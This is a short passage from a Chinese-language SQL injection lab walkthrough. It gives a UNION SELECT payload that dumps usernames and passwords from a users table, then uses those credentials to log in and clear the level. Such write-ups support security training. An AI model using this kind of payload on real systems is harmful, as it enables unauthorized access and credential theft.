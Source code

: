 ### 2.10.4. **爆出账户密码**

这里我们获取到账户和密码的字段后，就可以进行数据的获取了。

```
payload：' union select username_qbizva,password_danmjm from users_cgnxjc--
```

![图片 35](assets/%E5%9B%BE%E7%89%87%2035.png) 

### 2.10.5. **过关**

将获取到的账户密码进行登录，即可过关。

![图片 36](assets/%E5%9B%BE%E7%89%87%2036.png) 
